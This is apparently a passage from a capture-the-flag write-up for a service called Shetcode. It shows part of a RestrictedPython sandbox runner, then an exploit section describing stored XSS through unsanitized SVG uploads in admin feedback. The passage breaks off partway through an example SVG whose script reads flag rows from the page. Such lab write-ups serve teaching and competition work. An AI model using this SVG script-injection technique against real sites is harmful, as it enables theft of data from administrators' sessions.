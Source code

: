 ```python
        print(*args, **kwargs)

with open('solution.py', 'r') as f:
    src = f.read()

glb = {
    '__builtins__':          safe_builtins,             
    '_getattr_':             safer_getattr,             
    '_getitem_':             default_guarded_getitem,   
    '_getiter_':             default_guarded_getiter,   
    '_iter_unpack_sequence_':guarded_iter_unpack_sequence, 
    '_write_':               full_write_guard,          
    '_print_':               DirectPrinter,            
}

glb['__builtins__'].update({
    'input': input,
    'len':   len,
    'int':   int,
    'str':   str,
})

try:
    import warnings
    warnings.filterwarnings(
        "ignore",
        message=".*never reads 'printed' variable.*",
        category=SyntaxWarning
    )
    byte_code = compile_restricted(src, '<string>', 'exec')
    exec(byte_code, glb, None)

    printed = glb.get('printed')
    if printed:
        sys.stdout.write(printed)

except Exception as e:
    sys.stderr.write(f"ERROR: {e}")
    sys.exit(1)
```

### Stored XSS via SVG in Admin Feedback
#### Exploit
The third flagstore is stored in submitted feedback. The service does not clean up the uploaded SVG images. A malicious script inside SVG can retrieve the flags from the page and send them to other server or somewhere in Shetcode service (the checker uses private problems for that). The SVG scripts are loaded from checker's perspective with [playwright](https://playwright.dev/) headless browser.

Example SVG image with malicious script:

```
<?xml version="1.0" standalone="no"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
    <svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
        <script type="text/javascript">
          (async () => {{
            try {{
                const rows = document.querySelectorAll('tbody tr');
                if (rows.length === 0) {{
                return;
                }}
```